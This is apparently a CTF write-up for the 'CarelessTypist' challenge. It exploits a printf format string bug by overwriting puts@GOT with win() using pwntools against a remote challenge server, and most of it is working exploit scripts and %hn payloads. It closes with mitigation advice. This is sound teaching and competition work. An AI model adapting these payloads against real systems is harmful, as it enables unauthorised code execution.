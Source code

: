 # **CarelessTypist Format String Exploit**

## **Challenge Overview**
**Binary:** `CarelessTypist`  
**Protections:**  
- **Partial RELRO** (GOT is writable)  
- **No PIE** (base address fixed)  
- **No Stack Canary**  
- **NX Enabled** (no shellcode execution)  

**Vulnerability:** Format string vulnerability in `printf(user_input)`  
**Target:** Remote server at `chall.c00k3d.xyz:10002`  
**Goal:** Overwrite `puts@GOT` to redirect execution to `win()`  

---

## **Step 1: Analyzing the Binary**
### **1.1 Check Protections**
```bash
checksec ./CarelessTypist
```
**Output:**
```
[*] '/CarelessTypist'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
- **Partial RELRO** → We can overwrite the GOT.
- **No PIE** → Addresses are constant.
- **NX Enabled** → We can't execute shellcode on the stack.

### **1.2 Find the `win()` Function**
```bash
objdump -d ./CarelessTypist | grep -A20 "<win>:"
```
- `win()` is at `0x4011f3` (address fixed due to **No PIE**).

### **1.3 Find `puts@GOT`**
```bash
objdump -R ./CarelessTypist | grep puts
```
- `puts@GOT` is at `0x404018`.

---

## **Step 2: Exploit Development**
### **2.1 Find the Format String Offset**
We send `AAAA.%p.%p.%p...` to find where our input appears on the stack.

**Exploit Script:**
```python
from pwn import *

p = remote("chall.c00k3d.xyz", 10002)
p.sendlineafter(b"Enter string: ", b"AAAA.%1$p.%2$p.%3$p.%4$p.%5$p.%6$p.%7$p.%8$p")
response = p.recvline()
print(response)
p.close()
```
**Output:**
```
AAAA.0x7f... (leaked addresses) ...0x41414141... (rest)
```
- `0x41414141` (`AAAA`) appears at the **6th position** → **Offset = 6**.

### **2.2 Overwrite `puts@GOT` with `win()`**
We use `fmtstr_payload` to automate the GOT overwrite.

**Final Exploit:**
```python
from pwn import *

elf = context.binary = ELF("./CarelessTypist")
p = remote("chall.c00k3d.xyz", 10002)

win_addr = elf.symbols['win']
puts_got = elf.got['puts']
offset = 6  # Confirmed from leak

payload = fmtstr_payload(offset, {puts_got: win_addr}, write_size='short')

p.sendlineafter(b"Enter string: ", payload)
p.interactive()
```

**Why This Works:**
1. The format string vulnerability allows arbitrary memory writes.
2. We overwrite `puts@GOT` with `win()`.
3. When `puts("goodbye")` executes, it calls `win()` instead.

---

## **Step 3: Debugging (If Exploit Fails)**
### **3.1 Verify GOT Overwrite in GDB**
```bash
gdb -p $(pidof CarelessTypist)
x/gx 0x404018  # puts@GOT
```
- Should show `win()` address (`0x4011f3`).

### **3.2 Check for Bad Characters**
If `%n` is filtered, try manual writes:
```python
payload = p64(puts_got) + f"%{(win_addr & 0xFFFF) - 8}c%{offset}$hn".encode()
```

### **3.3 Alternative: Overwrite `.fini_array`**
If `puts@GOT` doesn’t work, target `.fini_array` (executed at program exit):
```python
fini_array = 0x403e00  # Adjust based on binary
payload = fmtstr_payload(offset, {fini_array: win_addr})
```

---

## **Final Solution**
### **Successful Payload**
```python
from pwn import *

elf = context.binary = ELF("./CarelessTypist")
p = remote("chall.c00k3d.xyz", 10002)

win_addr = elf.symbols['win']
puts_got = elf.got['puts']
offset = 6

payload = fmtstr_payload(offset, {puts_got: win_addr}, write_size='short')

p.sendlineafter(b"Enter string: ", payload)
p.interactive()  # Get the flag!
```

### **Expected Output**

![result](./img/result.png)

---

## **Conclusion**
- **Vulnerability:** Uncontrolled `printf(user_input)` → Format string exploit.
- **Exploit Strategy:** Overwrite `puts@GOT` to redirect execution to `win()`.
- **Key Takeaway:** Always check GOT/PIE/RELRO when dealing with format strings.

**Mitigation:**  
- Use `printf("%s", user_input)` instead of `printf(user_input)`.  
- Enable **Full RELRO** to make GOT read-only.  
